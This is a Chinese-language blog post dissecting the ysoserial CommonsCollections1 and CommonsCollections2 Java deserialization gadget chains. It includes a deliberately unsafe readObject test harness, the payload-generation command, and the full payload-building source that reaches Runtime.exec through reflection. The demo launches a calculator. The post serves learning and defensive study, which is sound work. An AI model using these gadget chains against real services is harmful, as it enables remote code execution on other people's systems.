

# Ysoserial_CommonColllections 01


Last Edited: September 25, 2024 7:56 PM

# CommonsCollections1

## 测试使用

写了最简单基础的反序列化代码

原因：

1. ysoserail直接生成的是序列化过的代码
2. 想知道作用

```java
import java.io.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import org.apache.commons.collections.map.LazyMap;

public class end {
    public static void main(String[] args) {
        try{
            ObjectInputStream obiIn = new ObjectInputStream(Files.newInputStream(Paths.get(&#34;/home/real/Downloads/summer.bin&#34;)));
            Object x = obiIn.readObject();
            obiIn.close();
        } catch (ClassNotFoundException | IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

`java -jar ysoserial-all.jar CommonsCollections1 gnome-calculator &gt; summer.bin`

效果如下：



经过反序列化成功召唤了计算器

那个报错是 ***尝试将一个 `Integer` 对象转换为 `Set` 类型***

虽然运行exit with code -1但是并不耽误其被召唤。所以错误和反序列化中召唤部分估计无关。

## 分析

`java -jar ysoserial-all.jar CommonsCollections1 gnome-calculator &gt; summer.bin`

使用的是 CommonsCollections1

```java
public class CommonsCollections1 extends PayloadRunner implements ObjectPayload&lt;InvocationHandler&gt; {
    public CommonsCollections1() {
    }

    public InvocationHandler getObject(String command) throws Exception {
    
        String[] execArgs = new String[]{command};
        
        //第一部分
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});
        Transformer[] transformers = new Transformer[]{new ConstantTransformer(Runtime.class), new InvokerTransformer(&#34;getMethod&#34;, new Class[]{String.class, Class[].class}, new Object[]{&#34;getRuntime&#34;, new Class[0]}), new InvokerTransformer(&#34;invoke&#34;, new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}), new InvokerTransformer(&#34;exec&#34;, new Class[]{String.class}, execArgs), new ConstantTransformer(1)};
        
        //第二部分
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        Map mapProxy = (Map)Gadgets.createMemoitizedProxy(lazyMap, Map.class, new Class[0]);
        
        //第三部分
        InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
        
        //第四部分
        Reflections.setFieldValue(transformerChain, &#34;iTransformers&#34;, transformers);
        
        return handler;
    }

    public static void main(String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections1.class, args);
    }

    public static boolean isApplicableJavaVersion() {
        return JavaVersion.isAnnInvHUniversalMethodImpl();
    }
}
```

### 第一部分：

```java
 Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});
 Transformer[] transformers = new Transformer[]{new ConstantTransformer(Runtime.class), 
																								 new InvokerTransformer(&#34;getMethod&#34;, new Class[]{String.class, Class[].class}, 
																								 new Object[]{&#34;getRuntime&#34;, new Class[0]}), 
																								 new InvokerTransformer(&#34;invoke&#34;, new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}), 
																								 new InvokerTransformer(&#34;exec&#34;, new Class[]{String.class}, execArgs), 
																								 new ConstantTransformer(1)};
```

- **ConstantTransformer和ChainedTransformer定义**
    
    ```java
    public ConstantTransformer(Object constantToReturn) {
            this.iConstant = constantToReturn;
        }
    public ChainedTransformer(Transformer[] transformers) {
            this.iTransformers = transformers;
        }
    ```
    

这个套娃和层次令人感动：

1. **Transformer transformerChain**
- ChainedTransformer
    - Transformer[]
        - ConstantTransformer
        

1.  **Transformer[] transformers**
- Transformer[]
    - ConstantTransformer
        - Runtime.class
    - InvokerTransformer
        - getMethod
    - Object[]
        - getRuntime
    - InvokerTransformer
        - invoke
    - InvokerTransformer
        - exec
    - ConstantTransformer

对比可以看出，

`Transformer transformerChain` 是一个数组，里面有一个元素

 **`Transformer[] transformers` 是一个反射调用类的方法数组， 反射调用Runtime**

### 第二部分

```java
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
Map mapProxy = (Map)Gadgets.createMemoitizedProxy(lazyMap, Map.class, new Class[0]);    
```

- LazyMap相关
    
    ```java
    public static Map decorate(Map map, Transformer factory) {
            return new LazyMap(map, factory);
    }
    
    protected LazyMap(Map map, Transformer factory) {
            super(map);
            if (factory == null) {
                throw new IllegalArgumentException(&#34;Factory must not be null&#34;);
            } else {
                this.factory = factory;
            }
        }
    ```
    

前两个Map类实例对象就是分别创建了一个Map

1. innerMap——-HashMap
2. lazyMap——LazyMap，用innerMap和（第一部分）transformerChain装饰（创建）

两者的writeObject、readObject、get方法存在差别。

HashMap更多的是对key和value的处理，LazyMap是对一个Map类对象的处理。

- Gadgets相关
    
    ```java
    public static &lt;T&gt; T createMemoitizedProxy(Map&lt;String, Object&gt; map, Class&lt;T&gt; iface, Class&lt;?&gt;... ifaces) throws Exception {
            return createProxy(createMemoizedInvocationHandler(map), iface, ifaces);
    }
        
    public static InvocationHandler createMemoizedInvocationHandler(Map&lt;String, Object&gt; map) throws Exception {
            return (InvocationHandler)Reflections.getFirstCtor(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;).newInstance(Override.class, map);
    }  
    
    public static &lt;T&gt; T createProxy(InvocationHandler ih, Class&lt;T&gt; iface, Class&lt;?&gt;... ifaces) {
            Class&lt;?&gt;[] allIfaces = (Class[])((Class[])Array.newInstance(Class.class, ifaces.length &#43; 1));
            allIfaces[0] = iface;
            if (ifaces.length &gt; 0) {
                System.arraycopy(ifaces, 0, allIfaces, 1, ifaces.length);
            }
    
            return iface.cast(Proxy.newProxyInstance(Gadgets.class.getClassLoader(), allIfaces, ih));
    }
    ```
    

mapProxy则实例化了一个通过反射创建的实例在内作为参数的Proxy：

&gt; 能够根据传递的映射 `map` 来执行方法调用，并可能实现某种记忆化（缓存）行为。
&gt; 

### 第三部分

```java
//第三部分
        InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
        
```

- Gadgets相关
    
    ```java
    public static InvocationHandler createMemoizedInvocationHandler(Map&lt;String, Object&gt; map) throws Exception {
            return (InvocationHandler)Reflections.getFirstCtor(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;).newInstance(Override.class, map);
    }
    ```
    

handler是一个指定类实例，指定的Proxy实例作为参数,，也即是上面第二部分的mapProxy

### 第四部分

```java

Reflections.setFieldValue(transformerChain, &#34;iTransformers&#34;, transformers);
        
```

- Reflections相关
    
    对Object的value进行设置
    
    ```java
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
            Field field = getField(obj.getClass(), fieldName);
            field.set(obj, value);
        }
    public void set(Object obj, Object value)
            throws IllegalArgumentException, IllegalAccessException
        {
            getFieldAccessor(obj).set(obj, value);
        }
    ```
    

### final

handler是最终返回的一个结果，

- 通过mapProxy创建
    - 通过lazyMap创建
        - transformerChain创建
            - 通过Reflections.setFieldValue更新transformerChain的内容

前面一直在提一个“指定的类”，就是sun.reflect.annotation.AnnotationInvocationHandler，不过无所谓，反正最后会被序列化，进行反序列化的是handler

# CommonsCollections2

```java
public class CommonsCollections2 implements ObjectPayload&lt;Queue&lt;Object&gt;&gt; {
    public CommonsCollections2() {
    }

    public Queue&lt;Object&gt; getObject(String command) throws Exception {
        
        Object templates = Gadgets.createTemplatesImpl(command);
        
        
        InvokerTransformer transformer = new InvokerTransformer(&#34;toString&#34;, new Class[0], new Object[0]);
        
        
        PriorityQueue&lt;Object&gt; queue = new PriorityQueue(2, new TransformingComparator(transformer));
        
        
        queue.add(1);
        queue.add(1);
        
        
        Reflections.setFieldValue(transformer, &#34;iMethodName&#34;, &#34;newTransformer&#34;);
        
        
        Object[] queueArray = (Object[])((Object[])Reflections.getFieldValue(queue, &#34;queue&#34;));
        
        
        queueArray[0] = templates;
        queueArray[1] = 1;
        
        
        return queue;
    }

    public static void main(String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections2.class, args);
    }
}

```

大同小异的，这个使用的是队列（优先）。

后面的几个commonsCollections系列的也大同小异。思路是一致的。

# Final 1.0

虽然简单来说是使用最经典的反射&#43;反序列化来实现的，但具体来看还是比较复杂的。

其中用数组或者队列来显式或者隐式调用Runtime.class，使之在反序列化后按照一定顺序执行最终实现危险调用的实现，very funny。

---

> Author:   
> URL: https://66lueflam144.github.io/posts/ysoserial-killer/  

